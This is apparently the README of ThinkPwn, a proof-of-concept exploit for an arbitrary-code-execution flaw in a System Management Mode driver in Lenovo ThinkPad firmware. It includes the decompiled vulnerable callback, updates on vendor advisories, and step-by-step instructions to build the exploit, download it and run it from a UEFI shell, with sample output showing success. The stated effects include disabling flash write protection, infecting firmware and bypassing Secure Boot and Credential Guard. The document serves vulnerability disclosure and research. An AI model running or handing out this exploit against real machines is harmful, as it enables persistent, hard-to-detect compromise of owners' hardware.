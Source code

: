 
  Lenovo ThinkPad System Management Mode arbitrary code execution exploit

***************************************************************************

For more information about this project please read the following article:

http://blog.cr4.sh/2016/06/exploring-and-exploiting-lenovo.html


This code exploits 0day privileges escalation vulnerability (or backdoor?) in SystemSmmRuntimeRt UEFI driver (GUID is 7C79AC8C-5E6C-4E3D-BA6F-C260EE7C172E) of Lenovo firmware. Vulnerability is present in all of the ThinkPad series laptops, the oldest one that I have checked is X220 and the neweset one is T450s (with latest firmware versions available at this moment). Running of arbitrary System Management Mode code allows attacker to disable flash write protection and infect platform firmware, disable Secure Boot, bypass Virtual Secure Mode (Credential Guard, etc.) on Windows 10 Enterprise and do others evil things.

##########################################

UPDATE FROM 30.06.2016:

Vulnerable code of SystemSmmRuntimeRt UEFI driver was copy-pasted by Lenovo from Intel reference code for 8-series chipsets. This exact code is not available in public but open source firmware of some Intel boards is also sharing it. For example, here you can see SmmRuntimeManagementCallback() function from Intel Quark BSP -- it's exactly the same vulnerable code.

https://kernel.googlesource.com/pub/scm/linux/kernel/git/jejb/Quark_EDKII/+/master/QuarkSocPkg/QuarkNorthCluster/Smm/Dxe/SmmRuntime/SmmRuntime.c#639

EDK2 source from public repository never had this vulnerability -- it's version of QuarkSocPkg was heavily modified in comparison with vulnerable one:

https://github.com/tianocore/edk2/commits/master/QuarkSocPkg

It means that original vulnerability was fixed by Intel in the middle of 2014. Unfortunately, there was no any public adviosries, so, it's still not clear that Intel or Lenovo actualy knew about it. There's a high possibility that old Intel code with this vulnerability currently present in firmware of other OEM/IBV vendors.

##########################################

UPDATE FROM 01.07.2016:

Lenovo released advisory for this vulnerability, they claims that vulnerable code written by Intel was received from 3-rd party IBV (Independent BIOS Vendor):

https://support.lenovo.com/my/en/solutions/LEN-8324

Now we can say for sure that products from other OEM's also has this vulnerability.

##########################################

UPDATE FROM 02.07.2016:

One of my followers confirmed that vulnerable code is present in his HP Pavilion laptop:

https://twitter.com/al3xtjames/status/749063556486791168

##########################################


Vulnerable SMM callback code:

    EFI_STATUS __fastcall sub_AD3AFA54(
        EFI_HANDLE SmmImageHandle, VOID *CommunicationBuffer, UINTN *SourceSize)
    {
        VOID *v3; // rax@1
        VOID *v4; // rbx@1

        // get some structure pointer from EFI_SMM_COMMUNICATE_HEADER.Data
        v3 = *(VOID **)(CommunicationBuffer + 0x20);
        v4 = CommunicationBuffer;
        if (v3)
        {
            /*
              Vulnarability is here:
              this code calls some function by address from obtained v3 structure field.
            */
            *(v3 + 0x8)(*(VOID **)v3, &dword_AD002290, CommunicationBuffer + 0x18);

            // set zero value to indicate successful operation
            *(VOID **)(v4 + 0x20) = 0;
        }
        
        return 0;
    }


Proof of concept exploit for this vulnerability is designed as UEFI application that runs from UEFI shell. It's also possible to exploit it from runing operating system but you have to implement your own EFI_BASE_PROTOCOL.Communicate() function.

To build exploit from the source code on Windows with Visual Studio compiler you have to perform the following steps:

  1. Copy ThinkPwn project directory into the EDK2 source code directory.

  2. Run Visual Studio 2008 Command Prompt and cd to EDK2 directory.

  3. Execute Edk2Setup.bat --pull to configure build environment and download required binaries.

  4. Edit AppPkg/AppPkg.dsc file and add path of ThinkPwn/ThinkPwn.dsc to the end of the [Components] section.

  5. cd to the ThinkPwn project directory and run build command.

  6. After compilation resulting PE image file will be created at Build/AppPkg/DEBUG_VS2008x86/X64/ThinkPwn/ThinkPwn/OUTPUT/ThinkPwn.efi


To test exploit on your own hardware:

  1. Prepare FAT32 formatted USB flash drive with ThinkPwn.efi and [UEFI Shell binaries](https://github.com/tianocore/tianocore.github.io/wiki/Efi-shell).
  
  You may also want to acquire the EFI shell directly without having to build it yourself from the TianoCore EDK [here](https://github.com/tianocore/edk2/tree/master/ShellBinPkg) , ensuring that you read the applicable limitations.

  2. Boot into the UEFI shell and execute ThinkPwn.efi application as follows:

(a). Download the [ThinkPwn.efi](https://github.com/Cr4sh/ThinkPwn/blob/master/ThinkPwn.efi) binary. 
(b). Download the EFI shell from the [TianoCore EDK repository](https://github.com/tianocore/edk2/tree/master/ShellBinPkg).
(c). Rename the EFI shell from the TianoCore EDK repository to *shellx64.efi*. That name is needed by Asus and other AMI Aptio x86_64 UEFI firmware based motherboards (from Sandy Bridge onwards) that provide an option called *"Launch EFI Shell from filesystem device"* . 
(d). Copy both EFI binaries to a FAT 32 formatted USB drive, and when done, reboot the host PC to the UEFI firmware settings. Modern Linux distributions will allow you to boot straight to the UEFI settings/setup on supported motherboards.
(e). In your device's firmware, locate the *"Launch EFI shell from filesystem device"* (Usually under Save options in the Aptio CSU menu, in the *"Boot override"* section.). You may be able to replicate the same behavior using an alternate EFI boot manager such as rEFInd and rEFIt, or a similar configuration option in your firmware settings. 
  
Usage example:

    FS1:\> ThinkPwn.efi
    
    SMM access protocol is at 0xaa5f8b00
    Available SMRAM regions:
     * 0xad000000:0xad3fffff
    SMM base protocol is at 0xaa989340
    Buffer for SMM communicate call is allocated at 0xacbfb018
    Obtaining FvFile(7C79AC8C-5E6C-4E3D-BA6F-C260EE7C172E) image handles...
     * Handle = 0xa4aee798
       Communicate() returned status 0x0000000e, data size is 0x1000
     * Handle = 0xa4aee298
       Communicate() returned status 0x00000000, data size is 0x1000
    SmmHandler() was executed, exploitation success!

On some tested hardware, this may result in an immediate reboot to the firmware settings menu.
If you wish to capture the output before the reboot, you may pipe the EFI's binary output to a log file as shown below for later analysis:

    FS1:\> ThinkPwn.efi > log.txt
    
    SMM access protocol is at 0x5d862c00
    Available SMRAM regions:
     * 0x5f000000:0x5f7fffff
    SMM base protocol is at 0x5ef44298
    Buffer for SMM communicate call is allocated at 0x5d92c018
    Obtaining FvFile(7C79AC8C-5E6C-4E3D-BA6F-C260EE7C172E) image handles...
    ERROR: Image handles was not found

That was the output generated from an Asus G750JM-DS71 notebook SKU running the latest firmware version as to date. (BIOS version .207).


Written by:
Dmytro Oleksiuk (aka Cr4sh)

cr4sh0@gmail.com
http://blog.cr4.sh

